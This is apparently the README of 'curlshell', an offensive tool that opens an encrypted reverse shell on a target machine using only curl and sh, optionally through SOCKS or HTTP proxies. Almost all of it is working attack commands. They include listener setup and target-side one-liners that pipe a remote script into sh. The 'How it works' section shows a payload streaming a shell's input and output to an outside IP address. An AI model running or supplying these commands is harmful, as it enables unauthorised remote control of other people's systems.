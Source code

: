 # Reverse shell using curl

(Cloned from [https://github.com/irsl/curlshell](https://github.com/irsl/curlshell); slightly enhanced)

An encrypted reverse TCP shell through a proxy (using only cURL).

It allows an attacker to access a remote shell (sh) when the remote system can access the Internet via a Proxy only (and no other binaries can be installed or executed). It only needs `curl` and `sh`. The target does not need to have python.


Generate a SSL Certificate (on your system; not the target):
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

## Without Proxy

```sh
# Start your listener (your system)
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://1.2.3.4:8080 | sh
```

## With SOCKS Proxy
```sh
./curlshell.py -x socks5h://5.5.5.5:1080 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x socks5h://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP Proxy
```sh
./curlshell.py -x http://5.5.5.5:3128 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x http://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP (plaintext)
```sh
./curlshell.py --listen-port 8080
```
```sh
curl -sfL http://1.2.3.4:8080 | sh
```

# Advanced Tricks
Spawn a TTY shell
```sh
stty intr undef ;
./curlshell.py --shell 'script -qc /bin/bash /dev/null' --listen-port 8080 ; stty intr ^C
```

# How it works
The first cURL request pipes this into a target's shell:
```sh
exec curl -X POST -sN http://217.138.219.220:30903/input \
    | sh 2>&1 | curl -s -T - http://217.138.219.220:30903/stdout
```

This command starts two cURL processes and connects another shell's input and output these two cURL. HTTP's 'chunked transfer' (`-T`) does the rest.

